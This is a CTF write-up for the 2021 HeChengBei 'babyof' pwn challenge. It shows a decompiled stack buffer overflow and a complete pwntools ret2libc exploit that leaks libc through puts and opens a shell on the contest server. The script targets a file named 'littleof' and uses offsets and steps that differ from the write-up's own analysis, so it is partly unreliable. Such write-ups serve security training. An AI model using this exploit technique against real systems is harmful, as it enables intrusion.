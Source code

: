 # HeChengBei 2021 babyof

> 2021 “鹤城杯”河南·鹤壁CTF网络安全挑战赛 初赛 pwn
>
> challenge name: babyof
>
> file: babyof, libc-2.27.so
>
> ld227-3ubuntu1.so and .i64 with comments provided  可以不用看了，程序不长
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16



无canary 

1. 第一个payload: 输出libc上的地址，回到baybyof
2. 第二个payload: onegadget





# IDA Analysis

main内基本没做什么，主要逻辑在babyof

```cpp
int babyof()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Do you know how to do buffer overflow?");
  read(0, buf, 256uLL);  // 无canary 第一个payload输出libc上的地址 回到baybyof 第二个payload onegadget
  return puts("I hope you win");
}
```





# Exploit Testing!

```python
from pwn import*
sh = remote("182.116.62.85", 27056)
#sh = process('./littleof')
elf = ELF('./littleof')
libc = ELF('./libc-2.27.so')
#libc = elf.libc
context.log_level='debug'

pop_rdi_ret = 0x0400863
main_addr = 0x0400789
pop_rsi_r15_ret = 0x0400861

payload = 'a'*0x40 + 'b'*8 + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(main_addr)

sh.recvuntil("?")
sh.sendline(payload)

leak = u64(sh.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = leak - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + libc.search('/bin/sh\x00').next()

payload = 'c'*(0x50-8) + 'd'*8 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(pop_rsi_r15_ret) + p64(0)*2 + p64(sys_addr)

sh.recvuntil("?")
sh.sendline(payload)

sh.interactive()
```

